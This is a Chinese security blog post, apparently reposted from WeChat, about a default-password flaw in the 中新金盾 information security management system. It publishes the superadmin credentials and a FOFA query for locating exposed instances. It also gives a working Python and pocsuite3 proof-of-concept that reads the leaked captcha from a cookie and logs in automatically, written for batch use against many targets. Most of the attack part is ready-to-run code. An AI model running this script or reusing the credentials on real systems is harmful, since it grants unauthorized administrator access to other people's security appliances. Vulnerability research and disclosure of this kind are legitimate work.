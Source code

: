 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/PgYn9yRbc4MKhD-QDf97sQ)

声明
--

**本文仅供学习参考，请勿用作违法用途，否则后果自负**

漏洞概要
----

**漏洞名称**：中新金盾信息安全管理系统 默认密码

**漏洞类型**：密码泄露

**漏洞危害**：高

**漏洞简介**：中新网络信息安全股份有限公司中新金盾信息安全管理系统存在默认弱口令，登录身份为超级管理员

**受影响得版本及应用版本**

目前 全版本

**FOFA 查询**：title="中新金盾信息安全管理系统"

漏洞复现
----

产品手册

![](https://mmbiz.qpic.cn/mmbiz_png/v6ap3LYR6wibb11zicr48Jd1XRTe4CRCeFOrZU6daNBqs4NODHzqW1crpcz0uDls2b29MueWVq54lZia4QeqmLanA/640?wx_fmt=png)

系统默认管理员账号密码：

**admin/zxsoft1234!@#$**

  
![](https://mmbiz.qpic.cn/mmbiz_png/v6ap3LYR6wibb11zicr48Jd1XRTe4CRCeFlzfKxLQ2DAWmH4fCvGprkFzfzyfQBl6icAibBMc15sia0OCCXgOZNxYiag/640?wx_fmt=png)

前面的和佩奇师傅的一摸一样，但是手动测试很慢啊，想写一个脚本，批量一下下。

刚开始的思路：找到图片验证码请求的 URL，然后使用图鉴去识别一下，然后验证。  

![](https://mmbiz.qpic.cn/mmbiz_png/v6ap3LYR6wibb11zicr48Jd1XRTe4CRCeFjuvHteQ421k34cyqicN8yjERbR2YMTpkmwfKz2rae6tYia6UalRaI01Q/640?wx_fmt=png)

但在测试中发现图片验证码在相应包里返回了（不用花钱了）

![](https://mmbiz.qpic.cn/mmbiz_png/v6ap3LYR6wibb11zicr48Jd1XRTe4CRCeF64mwgsWNmM709uYLnibnRJt0oAMUQ4hTMD5f1NFKx71qm3PaOTOQnlw/640?wx_fmt=png)

说干就干，拉起已经上床的佩奇师傅  

分析 JS 中路径是`?q=common/getcode/Math.random()`, 但是不带请求也可以。

```
def get_code(url):
  ##获取image
  path = "?q=common/getcode"
  code_url = url +path
  print(code_url)
  header = {
      "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36",
      "Accept-Encoding": "gzip, deflate",
      "Cookie": "PHPSESSID="
  }
  code_image = requests.get(code_url)
  print("获取到code PHPSESSID")
  print(code_image.headers)
  cookie = code_image.headers.get("Set-Cookie")

  phpsessionid = re.findall(r"PHPSESSID=([\w|]+)", cookie)
  code = re.findall(r"check_code=([\w|]+)", cookie)
  return phpsessionid[0] ,code[0]
```

```
import re
from collections import OrderedDict
import json
from sys import platform
import base64
from pocsuite3.api \
    import Output, POCBase, POC_CATEGORY, register_poc, requests, VUL_TYPE, get_listener_ip, get_listener_port
from pocsuite3.lib.core.interpreter_option \
    import OptString, OptDict, OptIP, OptPort, OptBool, OptInteger, OptFloat, OptItems
from pocsuite3.modules.listener import REVERSE_PAYLOAD


class Zhongxin(POCBase):
    def get_code(self,url):
        ##获取image
        path = "?q=common/getcode"
        code_url = url+path
        print(code_url)
        header = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36",
            "Accept-Encoding": "gzip, deflate",
            "Cookie": "PHPSESSID="
        }
        code_image = requests.get(code_url)
        print("获取到code PHPSESSID")
        # print(code_image.headers)
        cookie = code_image.headers.get("Set-Cookie")

        phpsessionid = re.findall(r"PHPSESSID=([\w|]+)", cookie)
        code = re.findall(r"check_code=([\w|]+)", cookie)
        return phpsessionid[0],code[0]

    def _verify(self):
        result = {}
        # target = self.correct_url(self.url)
        target = self.url
        phpsessionid ,code = self.get_code(target) # 获取图片验证码
        print("phpsessionid=",phpsessionid)
        print("code=",code)
        full_url = target+"?q=common/login"
        header = {
            "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36",
            "Accept-Encoding":"gzip, deflate",
            "Cookie":"PHPSESSID={0}; check_code={1}".format(phpsessionid,code)
        }


        data = {"name":"admin","password":"zxsoft1234!@#$","checkcode":str(code),"doLoginSubmit":"1"}
        print(full_url)
        resp = requests.post(url=full_url,data=data,headers=header,verify=False)
        print(resp.text)
        pass_data = "name:admin,password:zxsoft1234!@#$"
        if resp.status_code == 200 and "1" in resp.text:
            result['VerifyInfo'] = {}
            result['VerifyInfo']['URL'] = target
            result['VerifyInfo']['Postdata'] = pass_data

        return self.parse_output(result)

    def _attack(self):
        return self._verify()

    def _shell(self):
        return self._verify()

    def parse_output(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('target is not vulnerable')
        return output

# 注册 DemoPOC 类
register_poc(Zhongxin)
```